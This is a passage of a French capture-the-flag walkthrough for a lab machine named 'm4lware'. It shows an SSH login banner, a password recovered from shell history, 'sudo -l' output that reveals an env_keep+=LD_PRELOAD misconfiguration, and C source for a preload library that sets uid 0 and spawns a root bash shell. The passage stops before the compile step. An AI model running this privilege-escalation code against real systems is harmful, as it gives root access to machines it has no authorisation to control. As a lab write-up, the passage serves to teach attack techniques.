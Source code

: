 ```
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 26 Apr 2024 10:51:53 AM UTC

  System load:  0.97              Processes:             123
  Usage of /:   57.3% of 8.02GB   Users logged in:       0
  Memory usage: 26%               IPv4 address for eth0: 10.10.16.209
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

58 updates can be applied immediately.
33 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Nov  6 07:56:40 2023 from 192.168.8.102
saad@m4lware:~$
```
J'en profile pour prendre le 1er flag dans **user.txt**

# Privesc to root !
Dans l'historique, on retrouve le mot de passe de **saad**
```
echo "saad:[...REDACTED...]" > creds.txt
```
On va pouvoir voir ce qu'il peux faire avec sudo par exemple
```
saad@m4lware:/tmp$ sudo -l 
[sudo] password for saad: 
Matching Defaults entries for saad on m4lware:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User saad may run the following commands on m4lware:
    (root) /usr/bin/ping
```
Il peux lancer un ping en tant que root, mais ce qui nous interesse ici, c'est **env_keep+=LD_PRELOAD**

Nous allons pouvoir profiter de ce pb de configuration pour devenir root.

On va commencer par ce créer un shell:
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/bash");
}
```
Ensuite on le compile: